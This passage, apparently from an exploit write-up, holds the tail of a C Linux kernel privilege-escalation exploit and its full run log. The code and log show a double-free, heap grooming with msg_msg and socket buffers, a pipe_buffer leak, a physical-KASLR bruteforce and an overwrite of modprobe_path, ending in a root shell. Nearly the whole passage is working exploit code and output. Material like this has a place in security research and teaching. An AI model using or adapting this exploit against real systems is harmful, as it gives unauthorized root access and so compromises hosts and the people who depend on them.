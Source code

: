 ```c
        dprintf(modprobe_fd, MODPROBE_SCRIPT, i, status_fd, i, stdin_fd, i, stdout_fd);

        if (write(pfd[pipe_idx][1], fd_path, 32) < 0)
        {
            perror("\n[-] write(pipe)");
        }

        if (check_modprobe(fd_path))
        {
            puts("[-] failed to overwrite modprobe");
            break;
        }

        if (trigger_modprobe(status_fd))
        {
            puts("\n[+] got root");
            goto out;
        }

        for (int i = 0; i < SKBUF_SPRAY; i++)
        {
            if (read(sock[i][1], leak, 1024 - 320) < 0)
            {
                perror("[-] read(socket)");
                return -1;
            }
        }
    }
    puts("[-] fake modprobe failed");
...
```

the final result

```bash
[ Bam0x7 ]
/ $ ./exploit
[*] prepare table and chain
[*] trigger double-free
[+] table spray-0->udata 0x3232323232323232
[+] table spray-2->udata 0x3232323232323232
[+] got duplicated table
[*] replace with msg_msg
[*] kmalloc-1k msg: 0xffff88810307a400
[*] victim qid: 488
[*] send fake msg skbuf
[*] double-free victim msg
[*] read pipe_buffer with skbuf
[+] found pipe_buffer
[*] vmemmap_base: 0xffffea0000000000
[*] bruteforce phys-KASLR
[*] trying 0xffffea0000040000
[+] kernel base vmemmap offset: 0x40000
[*] scanning kernel memory
[*] trying 0xffffea00000cca00, 35Mb
[+] found modprobe_path
[*] modprobe page: 0xffffea00000d9dc0
[*] modprobe offset: 0x4a0
[*] overwrite modprobe_path
/bin/sh: can't access tty; job control turned off
/ # id
uid=0(root) gid=0(root)
/ # whoami
root
```